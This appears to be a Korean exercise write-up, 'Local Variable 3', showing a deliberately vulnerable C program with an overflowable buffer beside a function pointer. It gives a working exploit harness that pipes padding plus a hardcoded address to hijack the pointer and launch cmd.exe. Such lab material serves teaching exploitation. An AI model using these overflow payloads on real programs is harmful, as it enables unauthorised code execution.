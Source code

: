 # Local Variable 3

### Question

- cmd.exe가 실행되도록 입력 페이로드 구현

```
void shell() {
	system("cmd.exe");
}void printit() {
	printf("I'm sorry\\n");
}int main()
{
	int crap;
	void(*call)() = printit;
	char buf[10];
	fgets(buf, 29, stdin);
	call();
}

```



<br>



### Result

```
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char *argv[])
{
	char cmd[1024] = "python2 -c \"print \'A\'*10 + \'\\x60\\x14\\x40\\x00\'\"";
	char *fname = ".\\local_var_3.exe";

	strcat(cmd, " | ");
	strcat(cmd, fname);

	//printf("%s\n", cmd);
	system(cmd);

	return 0;
}
```

![image-25.png](../images/image-25.png)
